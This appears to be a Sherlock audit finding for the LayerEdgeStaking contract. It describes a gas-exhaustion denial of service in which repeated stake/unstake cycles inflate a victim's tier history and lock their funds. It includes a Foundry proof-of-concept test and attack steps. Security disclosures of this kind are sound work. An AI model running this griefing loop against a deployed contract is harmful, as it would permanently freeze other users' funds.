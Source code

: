 Rhythmic Felt Tortoise

Medium

# User's Tier History could be grown by others indefinitely, leading to DoS via unbounded gas consumption

### Summary

Both `stake()` and `unstake()` in `LayerEdgeStaking.sol` make use of the `calculateUnclaimedInterest()` function, which iterates through the `stakerTierHistory ` of the caller with some interest calculation. 

However, when a new user stakes for the first time, it may cause other users to be promoted into the next tier. Vice versa, if the new user immediatly unstakes, it causes those users to be demoted back to their original tier. This sequence of events are pushed onto those users' `stakerTierHistory`, and malicious new users may repeat this process an indefinite amount of times.

Therefore, it creates a DoS vector where a user's `stakerTierHistory` grows so large that they can no longer call stake() and unstake() due to gas limit, leaving their funds permanetly stuck in the staking contract.


### Root Cause

The assumption that a user's tier history cannot be inflated by other users is a mistake. The code blocks inside `calculateUnclaimedInterest()`, such as [LayerEdgeStaking.sol:451](https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L451-L466),  iterates through most of the tier history array while doing heavy computations. This leads to classic unbounded gas consumption on data with arbitrary size.

### Internal Pre-conditions

The victim must be on the boundary of the tier distribution. I. e. when a new user stakes more than `minStakeAmount`, the victim is promoted to the next tier. If this new user unstakes immediatly after, the victim would be demoted back to the original tier.

### External Pre-conditions

None

### Attack Path

1. Assume a victim exists with precondition listed above.
2. Attacker (new user, i. e. never participated in this contract before) calls stake(minStakeAmount). 
3. Attacker immediately unstakes after ~1 second
4. Repeat step 2 - 3 until desired inflated size ( ~ 4500 times to make `stake`/`unstake` require more gas than Ethereum Mainnet block limit)

### Impact

All of the victim's staking funds are permanently stuck in contract. There is no action the victim or admin can take since stakerTierHistory array only ever grows.

### PoC

Copy and paste the following test into `LayerEdgeStakingTest`. It comes with some helper functions to make the attack path clearer.
**Important:** since this is a gas consumption test, please increase the gas limit inside `foundry.toml` by placing `gas_limit = "18446744073709551615"  # u64::MAX` under the `[profile.default]` section. Otherwise, the test will revert when it runs out of gas.
```solidity
    function test_TierHistory_UnboundedGas() public {
        // Set up staking addresses.
        // In this scenario, alice is the rank 6th account. She is on the boundary of tier distribution
        // If one more account stakes with MIN_STAKE, she moves from tier 3 to tier 2.
        // If that account then unstakes, she moves from tier 2 back to tier 3.
        massStake(5,MIN_STAKE, "stake1");
        stake(alice, MIN_STAKE);
        massStake(7, MIN_STAKE, "stake2");

        // Let an attacker repeatedly stakes and unstakes with MIN_STAKE
        massStakeAndUnstake(4500, MIN_STAKE, 1, "stakeAndUnstake1");

        // After 4500 stakes and unstakes, Alice's tier history array has grown to 9000+ in length
        // Alice now attempts to unstake, however, unstake function runs out of gas calculating tier history interest
        uint256 before = gasleft();
        unstake(alice, MIN_STAKE);
        assertGt(before - gasleft(), 36e6); //unstake requires more than 36e6 gas, the block limit on Ethereum Mainnet
        // Therefore, unstake is not callable and always revert in this state
    }
    function massStake(uint256 usersCount, uint256 amount, string memory addrSeed) public {
        for (uint160 i = 0; i < usersCount; i++) {
            address user = address(uint160(makeAddr(addrSeed)) + i);
            vm.prank(admin);
            token.transfer(user, amount);
            stake(user,amount);
        }
    }
    function massStakeAndUnstake(uint256 usersCount, uint256 amount , uint256 timeElapse, string memory addrSeed) public {
        for (uint160 i = 0; i < usersCount; i++) {
            address user = address(uint160(makeAddr(addrSeed)) + i);
            vm.prank(admin);
            token.transfer(user, amount);
            stake(user,amount);
            unstake(user,amount);
            vm.warp(block.timestamp + timeElapse);
        }
    }
    function stake(address user, uint256 amount) public {
        vm.startPrank(user);
        token.approve(address(staking), amount);
        staking.stake(amount);
        vm.stopPrank();
    }
    function unstake(address user, uint256 amount) public {
        vm.startPrank(user);
        staking.unstake(amount);
        vm.stopPrank();
    }
```

### Mitigation

_No response_
